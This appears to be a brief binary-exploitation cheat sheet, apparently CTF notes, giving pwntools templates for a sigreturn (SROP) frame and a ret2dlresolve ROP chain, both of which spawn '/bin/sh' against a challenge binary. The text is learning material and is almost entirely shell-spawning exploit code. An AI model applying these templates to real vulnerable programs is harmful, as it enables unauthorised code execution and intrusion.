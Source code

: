 # rop

## SIGROP

> from pwn import *
>       
> BIN_SH = 0xcafebabe   # addr of "/bin/sh\x00"
> SYSCALL = 0xdeadbeef  # addr of syscall instruction 
>        
> frame = SigreturnFrame(kernel="amd64")
> frame.rax = constants.SYS_execve
> frame.rdi = BIN_SH
> frame.rsi = 0x0
> frame.rdx = 0x0
> frame.rip = SYSCALL
>        
> payload = bytes(frame)

[Talk](https://www.youtube.com/watch?v=ADULSwnQs-s)

## Ret2dlresolve

> from pwn import *
>      
> exe = context.binary = ELF('challenge')
>     
> dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh\x00"])
> # dlresolve.data_addr # Addr of RW memory area
> # dlresolve.payload   # fake structures
>    
> rop = ROP(exe)
> rop.read(0, dlresolve.data_addr) # ROP to read fake structures
> rop.ret2dlresolve(dlresolve)     # ROP to call _dl_runtime_resolve
>
> raw_rop = rop.chain()            # Full ROP chain

[Talk](https://www.youtube.com/watch?v=ADULSwnQs-s)
